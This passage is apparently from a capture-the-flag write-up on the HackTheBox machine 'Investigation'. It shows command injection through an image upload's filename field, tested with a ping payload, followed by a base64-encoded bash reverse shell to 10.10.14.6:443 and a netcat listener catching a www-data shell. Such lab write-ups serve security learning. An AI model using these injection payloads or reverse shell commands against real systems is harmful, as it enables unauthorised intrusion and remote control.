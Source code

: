 ### RCE

#### POC

To test this out, I’ll find the HTTP request where I submit an image in Burp Proxy history, and send it to Repeater:

![image-20230418125028031](/img/image-20230418125028031.png)

The filename is set in the form data metadata. I’ll change it to `ping -c 10.10.14.6|` and start `tcpdump` to listen for ICMP. On sending the request, an ICMP packet comes back:

```

oxdf@hacky$ sudo tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
12:51:18.487116 IP 10.10.11.197 > 10.10.14.6: ICMP echo request, id 2, seq 1, length 64
12:51:18.487125 IP 10.10.14.6 > 10.10.11.197: ICMP echo reply, id 2, seq 1, length 64

```

That’s code execution on Investigation.

#### Shell

To get a shell, I’ll try a [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw). It doesn’t work in raw form, likely because of the special characters required. I’ll base64-encode the shell, messing with extra whitespace until there’s no special characters (not always required, but can be helpful):

```

oxdf@hacky$ echo 'bash -i &> /dev/tcp/10.10.14.6/443 0>&1' | base64 -w0
YmFzaCAtaSAmPiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0MyAwPiYxCg==
oxdf@hacky$ echo 'bash -i &> /dev/tcp/10.10.14.6/443 0>&1 ' | base64 -w0
YmFzaCAtaSAmPiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0MyAwPiYxIAo=
oxdf@hacky$ echo 'bash -i &> /dev/tcp/10.10.14.6/443 0>&1  ' | base64 -w0
YmFzaCAtaSAmPiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0MyAwPiYxICAK

```

Now I’ll send that as the `filename`:

![image-20230418125705292](/img/image-20230418125705292.png)

It hangs, but there’s a shell at a listening `nc`:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.197 37680
bash: cannot set terminal process group (960): Inappropriate ioctl for device
bash: no job control in this shell
www-data@investigation:~/uploads/1681837009$

```
